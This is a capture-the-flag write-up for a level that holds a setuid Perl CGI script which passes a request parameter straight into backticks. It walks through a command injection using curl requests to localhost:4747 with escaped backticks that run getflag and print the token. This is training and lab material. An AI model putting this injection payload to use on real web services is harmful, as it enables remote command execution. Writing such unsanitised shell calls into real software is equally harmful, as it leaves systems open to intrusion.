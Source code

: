 Let's inspect home directory:
```
ls -la
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
```

Again a file owned by a target user :)

Let's inspect it:
```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

So it's a Perl script... with a system call!

Also we see a comment `localhost:4747`.
Let's try to make request on this address:
```
curl http://localhost:4747
```

We see an empty line.
That means script is working.

The scipt has takes a param `x`.

Let's try to use it in our request:
```
curl http://localhost:4747?x=hello
hello
```

Now I'll try to use grave accent (\`) to execute shell commands:
```
curl http://localhost:4747?x=`getflag`
```

This doesn't work.
Let's try to escape the grave accents:
```
curl http://localhost:4747?x=\`getflag\`
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

Done!

**Resources**
https://www.perl.com/pub/2000/10/begperl1.html/
https://stackoverflow.com/questions/40934882/in-perl-what-is-the-difference-between-double-quotes-single-quotes-and-gr